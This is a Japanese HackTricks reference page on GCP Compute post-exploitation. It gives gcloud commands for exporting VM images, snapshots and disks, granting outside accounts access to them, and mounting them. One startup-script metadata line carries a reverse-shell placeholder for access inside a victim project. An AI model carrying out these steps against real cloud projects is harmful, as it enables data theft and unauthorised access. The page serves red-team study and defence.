 # GCP - Compute Post Exploitation

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬** [**Discordグループ**](https://discord.gg/hRep4RUj7f)**または**[**telegramグループ**](https://t.me/peass)**に参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)で**フォロー**する。
* **ハッキングトリックを共有するためにPRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出する。**

</details>

## Compute

ComputeおよびVPC（ネットワーキング）の詳細については、以下をチェックしてください：

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### イメージのエクスポートとローカルでの検査

これにより、攻撃者は既存のイメージ内に含まれるデータにアクセスしたり、実行中のVMの新しいイメージを作成してそのデータにアクセスしたりできます。

VMイメージをバケットにエクスポートしてから、次のコマンドでローカルにダウンロードしてマウントすることが可能です：

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

このアクションを実行するために、攻撃者はストレージバケットに対する特権と、確実に**cloudbuildに対する特権**が必要です。なぜなら、この**サービス**がエクスポートを実行するように求められるからです。\
さらに、これが機能するためには、codebuild SAとcompute SAに特権付与の権限が必要です。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` には次の権限が必要です:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

そしてSA `<project-id>-compute@developer.gserviceaccount.com` には次の権限が必要です:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### スナップショットとディスクのローカルエクスポートと検査

スナップショットとディスクを直接エクスポートすることはできませんが、**スナップショットをディスクに変換し、ディスクをイメージに変換**し、**前のセクション**に従ってそのイメージをローカルで検査することは可能です

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### イメージを検査してVMを作成する

攻撃者がイメージを作成した場所から**イメージに保存されているデータ**または**実行中のVM内部**にアクセスすることを目的として、イメージに外部アカウントへのアクセス権限を付与することが可能です：

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```

そして、それを元に新しいVMを作成します：

```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

もしイメージに対する外部アカウントアクセスを与えられなかった場合、被害者のプロジェクトでそのイメージを使用してVMを起動し、メタデータを実行して逆シェルにアクセスすることができます。パラメータを追加してイメージにアクセスします。

```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```

### スナップショット/ディスクの検査とVMへのアタッチ

**ディスクやスナップショットに保存されたデータにアクセスすることを目的として、スナップショットをディスクに変換し、ディスクをイメージに変換して前の手順に従うことができます。**

または、**外部アカウントにディスクへのアクセス権限を付与**することができます（開始点がスナップショットの場合はスナップショットにアクセス権限を付与するか、それからディスクを作成します）：

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```

**インスタンスにディスクをアタッチ**します：

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```

VM内のディスクをマウントします：

1. **VMにSSH接続**します：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2. **ディスクを特定**します：VM内に入ったら、ディスクデバイスをリストアップして新しいディスクを特定します。通常、`/dev/sdb`、`/dev/sdc`などとして見つけることができます。
3. **ディスクをフォーマットしてマウント**します（新しいまたは生ディスクの場合）：

* マウントポイントを作成します：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

* ディスクをマウントします：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

スナップショットまたはディスクに外部プロジェクトへのアクセス権限を与えることができない場合は、これらのアクションをスナップショット/ディスクと同じプロジェクト内のインスタンスで実行する必要があるかもしれません。

